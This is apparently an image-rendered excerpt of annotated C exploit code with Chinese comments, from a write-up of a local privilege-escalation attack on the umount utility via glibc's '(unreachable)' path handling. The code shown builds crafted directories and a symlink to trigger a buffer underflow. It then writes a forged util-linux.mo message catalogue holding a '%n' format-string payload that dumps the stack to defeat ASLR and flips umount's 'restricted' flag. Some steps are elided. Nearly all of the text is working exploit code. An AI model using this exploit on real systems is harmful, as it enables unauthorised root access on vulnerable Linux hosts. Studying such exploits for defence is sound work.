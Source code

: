 ```c
  createDirectoryRecursive(namespaceMountBaseDir, "(unreachable)/x");	// 在 cwd 目录下递归创建 (unreachable)/x。下同
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.X/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.x/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);

// Create symlink to trigger underflows.
  result=snprintf(pathBuffer, sizeof(pathBuffer), "%s/(unreachable)/tmp/down",
      namespaceMountBaseDir);
  result=symlink(osReleaseExploitData[1], pathBuffer);	// 创建名为 pathBuffer 的符号链接
  [...]

// Write the initial message catalogue to trigger stack dumping
// and to make the "umount" call privileged by toggling the "restricted"
// flag in the context.
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);	// 覆盖 "restricted" 标志将赋予 umount 访问已装载文件系统的权限

  [...]
  char *stackDumpStr=(char*)malloc(0x80+6*(STACK_LONG_DUMP_BYTES/8));
  char *stackDumpStrEnd=stackDumpStr;
  stackDumpStrEnd+=sprintf(stackDumpStrEnd, "AA%%%d$lnAAAAAA",
      ((int*)osReleaseExploitData[3])[ED_STACK_OFFSET_CTX]);
  for(int dumpCount=(STACK_LONG_DUMP_BYTES/8); dumpCount; dumpCount--) {	// 通过格式化字符串 dump 栈数据，以对抗 ASLR
    memcpy(stackDumpStrEnd, "%016lx", 6);
    stackDumpStrEnd+=6;
  }

  [...]
  result=writeMessageCatalogue(pathBuffer,
      (char*[]){
          "%s: mountpoint not found",
          "%s: not mounted",
          "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
      },
      (char*[]){"1234", stackDumpStr, "5678"},
      3);	// 伪造一个 catalogue，将上面的 stackDumpStr 格式化字符串写进去

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.X/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseTriggerPipePathname=strdup(pathBuffer);	// 创建文件

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.x/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseCataloguePathname=strdup(pathBuffer);		// 创建文件

  return(namespacedProcessPid);		// 返回子进程 ID
}
```